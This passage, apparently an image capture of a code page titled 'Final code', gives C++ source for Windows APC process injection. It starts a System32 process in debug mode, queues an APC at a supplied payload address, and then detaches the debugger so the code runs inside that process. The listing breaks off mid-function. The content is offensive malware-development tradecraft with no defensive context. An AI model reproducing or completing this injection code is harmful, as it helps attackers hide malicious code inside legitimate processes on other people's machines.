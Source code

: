 # Final code

```cpp
#include <stdio.h>
#include <Windows.h>

bool APCInjection(IN HANDLE* hThread, IN PVOID* pAddress, IN DWORD* dwProcessId) {

  if (!QueueUserAPC((PAPCFUNC)*pAddress, *hThread, NULL)) {
    printf("QueueUserAPC failed with error %x\n", GetLastError());
    return FALSE;
  }

  DebugActiveProcessStop(*dwProcessId);

  return TRUE;
}


BOOL CreateDebuggedProcess(IN LPCSTR lpProcessName,OUT DWORD* dwProcessId,OUT HANDLE* hProcess,OUT HANDLE* hThread) {

  CHAR lpPath[MAX_PATH * 2];
  CHAR WnDr[MAX_PATH];

  STARTUPINFOA si = {0};

  PROCESS_INFORMATION pi = { 0 };

  RtlSecureZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  RtlSecureZeroMemory(&si, sizeof(STARTUPINFO));

  si.cb = sizeof(STARTUPINFO);

  if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {

    printf("GetEnvironmentVariableA failed with error %x", GetLastError());
    return FALSE;

  }

  sprintf(lpPath, "%s\\System32\\%s", WnDr,lpProcessName);

  if (!CreateProcessA(
    NULL,
    lpPath,
    NULL,
    NULL,
    FALSE,
    DEBUG_PROCESS,
    NULL,
    NULL,
    &si,
    &pi
    )) {

    printf("CreateProcessA failed with error %x\n", GetLastError());
    return FALSE;
  }

  *hProcess = pi.hProcess;
  *dwProcessId = pi.dwProcessId;
  *hThread = pi.hThread;
```